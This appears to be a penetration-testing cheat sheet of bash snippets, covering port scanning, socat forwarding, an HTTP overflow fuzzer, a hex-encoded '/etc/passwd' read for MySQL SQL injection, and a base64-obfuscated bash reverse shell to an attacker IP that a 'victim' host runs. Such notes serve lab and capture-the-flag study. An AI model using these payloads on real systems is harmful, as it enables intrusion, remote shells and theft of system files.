 ## Forward UDP to TCP
```bash
socat -T15 udp4-recvfrom:53,reuseaddr,fork tcp:0.0.0.0:5353
socat tcp4-listen:5353,reuseaddr,fork UDP:8.8.8.8:53
```

## Port scanning
- Bash scripting

```bash
#!/bin/bash

# ports=(21 22 53 80 443 3306 8443 8080)
ports=`seq 1 5000`
for port in ${ports[@]}; do
   timeout 1 bash -c "echo \"Port Scan Test\" > /dev/tcp/127.0.0.1/$port && echo $port is open" 2>/dev/null
done
```

```bash
# scan
$ seq 1000 5000 | xargs -P 50 -I{} proxychains nc -znv -w 1 10.1.1.95 {} 2>&1 | tee -a ports

# look for open ports
$ grep -v refused ports -A1 | grep open
```

## SSH - unable to negotiate
- Problem
```bash
$ ssh alice@10.11.1.141
Unable to negotiate with 10.11.1.141 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```

- Solution
```bash
$ ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 alice@10.11.1.141
```

## HTTP fuzzer (bash)
```bash
for i in {100..2000..100}; do
  echo Sending $i bytes
  payload=$(perl -e "print 'A'x$i")
  curl -si -X POST "http://192.168.123.10/login" --data "username=$payload&password=BBBB" --connect-timeout 1 > /dev/null
  if [ $? != 0 ]; then
    echo Could not connect
	break
  fi
done
```

## Python2.7 Virtual Environment
```bash
virtualenv --python=python2.7 venv
source venv/bin/activate
pip install -r requirements.txt
...
...
deactivate
```

## Hex Encoding
Useful to send via SQL Injection (e.g MYSQL)
```
$ echo -n /etc/passwd | xxd -p
2f6574632f706173737764

$ echo -n 2f6574632f706173737764 | xxd -r -p
/etc/passwd

Ex: load_file(0x2f6574632f706173737764)
```

## Processes owned by root
```bash
ps -Af | grep -E '^root'
ps -Af | awk '$1 == "root" {print $0}' | grep -vE '\[.+?\]|/lib/systemd/'
```

## Generate random string
```bash
cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 10 | head -n 1
```

## To find out ENV address in gdb

```
(gdb) x/s *((char **)environ)

To get address of the next env variable (2 ways)
  1. Press enter
  2. x/s *((char **)environ + N
```

## Reverse Shell

```
attacker$ echo -n 'bash -i  >& /dev/tcp/10.10.2.165/4444 0>&1' | base64 -w0
YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMi4xNjUvNDQ0NCAwPiYx

victim$ echo -n 'YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMi4xNjUvNDQ0NCAwPiYx'|base64 -d|bash
```
